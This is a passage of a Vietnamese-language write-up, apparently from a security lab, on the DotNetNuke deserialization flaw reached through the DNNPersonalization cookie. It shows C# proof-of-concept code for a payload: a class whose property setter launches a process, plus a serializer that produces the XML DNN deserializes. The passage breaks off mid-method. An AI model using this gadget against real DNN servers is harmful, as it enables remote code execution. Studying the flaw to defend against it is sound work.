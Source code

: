 - Dùng **`XmlSerializer.Deserialize`** để biến nội dung XML thành object thật.
    
- Thêm vào `Hashtable`.
    
👉 Vấn đề: vì `type` và nội dung XML hoàn toàn do người dùng kiểm soát (từ cookie `DNNPersonalization`) 

## Tạo Payload

Dựa trên `XmlUtils#DeSerializeHashtable` là vị trí lỗi tạo một chương trình tương tự serialize và deserialize object:

```js
using System.Xml;
using System.Diagnostics;
using System.Xml.Serialization;

namespace example
{
	public class Test  
	{    
	    private string _name;  
	    public string name  
	    {  
	        get { return _name; }  
	        set { this._name = value; execCMD(); }  
	    }  
	  
	    private void execCMD()  
	    {  
	        Process process = new Process();  
	        process.StartInfo.FileName = this._name;  
	        process.Start();  
	        process.Dispose(); // close  
	    }  
	}

    public class Program
    {
        private static string fileFolder = "D:\\lab\\csharp\\DNN\\example\\serialization\\";
        public static void Serialize(Object obj) // method xml serialize arbitrary object 
        {
            // tạo xml root element
            XmlDocument xmlDocument = new XmlDocument();
            XmlElement xmlElementRoot = xmlDocument.CreateElement("profile");
            xmlDocument.AppendChild(xmlElementRoot);

            // tạo node con item có attribute type chứa tên object type

            XmlElement xmlElementItem = xmlDocument.CreateElement("item");
            xmlElementItem.SetAttribute("type", obj.GetType().AssemblyQualifiedName);

            // serialize obj thành xmlDocumentObj

            XmlDocument xmlDocumentObj = new XmlDocument();
            XmlSerializer xmlSerializer = new XmlSerializer(obj.GetType());
            StringWriter stringWriter = new StringWriter();
            xmlSerializer.Serialize(stringWriter, obj);
            xmlDocumentObj.LoadXml(stringWriter.ToString());
            // thêm xml serialized object này vào node item và thêm node item vào root element
            xmlElementItem.AppendChild(xmlDocument.ImportNode(xmlDocumentObj.DocumentElement, true));

            xmlElementRoot.AppendChild(xmlElementItem);
    
```